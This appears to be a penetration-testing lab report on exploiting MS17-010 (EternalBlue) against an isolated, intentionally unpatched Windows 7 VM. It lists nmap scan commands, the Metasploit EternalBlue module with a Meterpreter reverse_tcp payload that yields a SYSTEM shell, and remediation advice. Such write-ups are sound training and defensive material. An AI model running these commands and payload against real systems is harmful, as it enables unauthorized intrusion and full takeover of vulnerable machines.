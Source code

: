 **Vulnerability Assessment Report — Windows 7 Exploitation Lab**

**Table of Contents**

1. **Executive Summary**
2. **Introduction**
3. **Scope & Methodology**
4. **Findings**
    - 4.1 Host Discovery
    - 4.2 Service Enumeration
    - 4.3 Vulnerability Scanning
    - 4.4 Exploitation
    - 4.5 post-Exploitation
5. **Remediation Recommendations**
6. **Conclusion**
7. **Appendix: Lab Configuration & Updated Tool References**

**1\. Executive Summary**

This report details a controlled lab exploitation of a **Windows 7 Professional SP1 x64** system using a **Kali Linux 2025.2** attacker machine. A critical **MS17-010 (EternalBlue)** vulnerability was identified and exploited, demonstrating how legacy systems with SMBv1 enabled remain exposed to **remote code execution (RCE)** threats.

The lab exercise validated that **unpatched end-of-life operating systems** can be compromised easily using **modern open-source security frameworks**, highlighting the importance of **patch management, secure configurations, and network segmentation**.

**2\. Introduction**

**Objective:**

- Identify vulnerabilities on a Windows 7 target.
- Exploit **MS17-010** to achieve SYSTEM-level access.
- Validate post-exploitation capabilities using up-to-date tools and techniques.

**Lab Environment:**

- **Attacker:** Kali Linux 2025.2 — IP: 192.168.20.128
- **Target:** Windows 7 Professional SP1 x64 — IP: 192.168.20.130
- **Network:** Isolated NAT network (192.168.20.0/24)

**3\. Scope & Methodology**

**Scope:**

- Single target: Windows 7 (192.168.20.130)
- Focus: **SMBv1 service exploitation**
- Tools: **Nmap**, **Metasploit**, with references to **BloodHound** for possible AD enumeration in extended scenarios.

**Methodology:**

| Step | Tool/Command | Purpose |
| --- | --- | --- |
| Host Discovery | nmap -sn 192.168.20.0/24 | Identify live hosts |
| Service Enumeration | nmap -sV 192.168.20.130 | Detect open ports & services |
| Vulnerability Scan | nmap --script vuln 192.168.20.130 | Identify exploitable vulnerabilities |
| Exploitation | msfconsole | Exploit MS17-010 |
| Post-Exploitation | meterpreter | Validate privileges & gather system info |

**4\. Findings**

**4.1 Host Discovery**

nmap -sn 192.168.20.0/24

**Result:**

- 5 active hosts detected
- Windows 7 confirmed at **192.168.20.130**

**4.2 Service Enumeration**

nmap -sV 192.168.20.130

**Open Ports:**

- 135/tcp — MS RPC
- 139/tcp — NetBIOS
- 445/tcp — SMB (vulnerable to EternalBlue)

**OS Fingerprint:** Windows 7 Professional SP1 x64

**4.3 Vulnerability Scanning**

nmap --script vuln 192.168.20.130

**Critical Finding:**

- **MS17-010 (CVE-2017-0143)**
  - SMBv1 enabled
  - **High Risk:** Remote Code Execution confirmed exploitable

**4.4 Exploitation**

**Tool:** Metasploit Framework (2025.2, updated)

msfconsole

**Module Used:**

use exploit/windows/smb/ms17_010_eternalblue

**Steps:**

1. set RHOST 192.168.20.130
2. set PAYLOAD windows/x64/meterpreter/reverse_tcp
3. exploit
   
**Result:**

- Successful **reverse shell**
- Meterpreter session established

**4.5 Post-Exploitation**

sysinfo

- OS: Windows 7 SP1 x64

getuid

- User: **NT AUTHORITY\\SYSTEM**

Full **SYSTEM-level control** achieved.

**5\. Remediation Recommendations**

| Risk | Recommended Action |
| --- | --- |
| Critical: MS17-010 | Apply patch **KB4012212** immediately. |
| SMBv1 Exposure | Disable SMBv1 on all Windows systems. |
| Legacy OS | Upgrade to a supported OS (Windows 10/11). |
| Network Segmentation | Restrict SMB traffic; isolate legacy systems. |
| Detection & Response | Deploy modern EDR/XDR solutions to monitor SMB and lateral movement. |
| Penetration Testing Environment | Regularly update **Kali Linux** and its tools via official repositories: |

**6\. Conclusion**

This assessment confirms that **unpatched Windows 7 systems remain dangerously exploitable** by EternalBlue. The attack was trivial with modern tools like **Metasploit**, demonstrating the urgency of migrating away from unsupported systems and disabling obsolete protocols like **SMBv1**.

Regular vulnerability scans, prompt patching, and continuous monitoring are critical for defending against well-known exploits.

**7\. Appendix: Lab Configuration & Updated Tool References**

**Virtualization:**

- Hypervisor: VMware Workstation Pro
- Network: NAT, fully isolated

**Attacker VM:**

- Kali Linux 2025.2
- Tools verified:
  - **Nmap** (nmap --version)
  - **Metasploit Framework** (msfconsole --version)
  - **BloodHound CE** (available for Active Directory mapping if required)

**Target VM:**

- Windows 7 Professional SP1 x64
- SMBv1 enabled by default
- No security patches installed (intentionally vulnerable)

**References**

1. Microsoft Security Bulletin. (2017). \*MS17-010: Security Update for Microsoft Windows SMB Server (4013389)\*.  
    <https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2017/ms17-010>
2. MITRE Corporation. (2017). \*CVE-2017-0143: Windows SMB Remote Code Execution Vulnerability\*.  
    <https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143>
3. Nmap Project. (2025). _Nmap Network Scanning: Official Documentation_.  
    <https://nmap.org/book/man.html>
4. Rapid7. (2025). _Metasploit Framework Documentation: EternalBlue Exploit Module_.  
    <https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/>
5. Microsoft. (2020). _How to detect, enable, and disable SMBv1, SMBv2, and SMBv3 in Windows_.  
    <https://learn.microsoft.com/en-us/windows-server/storage/file-server/troubleshoot/detect-enable-and-disable-smbv1-v2-v3>
6. US-CERT. (2017). \*Alert (TA17-132A): SMB Security Best Practices\*. Cybersecurity & Infrastructure Security Agency.  
    <https://www.cisa.gov/news-events/alerts/2017/05/12/alert-ta17-132a>
7. National Institute of Standards and Technology (NIST). \*National Vulnerability Database (NVD) - CVE-2017-0143\*.  
    <https://nvd.nist.gov/vuln/detail/CVE-2017-0143>
8. SANS Institute. (2024). _Windows Security Hardening Checklist_.  
    <https://www.sans.org/posters/windows-security-hardening-cheat-sheet/>

